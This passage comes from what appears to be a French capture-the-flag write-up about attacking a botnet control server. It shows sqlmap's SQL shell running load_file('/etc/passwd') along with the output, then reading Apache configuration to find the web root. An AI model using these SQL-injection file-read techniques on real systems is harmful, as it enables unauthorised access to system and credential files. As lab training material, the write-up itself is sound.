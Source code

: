 ```plain
| command     | varchar(255) |
| id          | varchar(255) |
| last_ip     | varchar(15)  |
| last_online | int(10)      |
| new         | tinyint(1)   |
| OS          | varchar(10)  |
| regdate     | datetime     |
+-------------+--------------+
```

En revanche un accès au fichier via *--file-read* n'aboutit pas et *--os-shell* échoue.  

Seul bon point, *--sql-shell* fonctionne et nous permet malgré tout d’accéder aux fichiers sur le disque (en tant que l'utilisateur mysql).  

Voici un exemple d'output (volontairement réduit) :  

```plain
sql-shell> select load_file('/etc/passwd');
[23:34:40] [INFO] fetching SQL SELECT statement query output: 'select load_file('/etc/passwd')'
select load_file('/etc/passwd');:    'root:x:0:0:root:/root:/bin/bash\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbotter:x:1000:1000:botter,,,:/home/botter:/bin/bash\n'
```

La lecture de */etc/apache2/apache2.conf* n'apporte bien de bien intéressant. Il aura fallut faire une recherche Google pour déterminer le nom du fichier de configuration par défaut utilisé sous *Debian Jessie*, le système sur lequel tourne ce CTF : */etc/apache2/sites-enabled/000-default.conf*.  

On obtient la configuration suivante :  

```plain
<VirtualHost *:80>
        --- snip ---
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        --- snip ---
</VirtualHost>
```

A noter pour la prochaine fois que c'est plus simple de se référer au home de *www-data* dans */etc/passwd* pour trouver la racine web :p  

Accèder au C&C
--------------

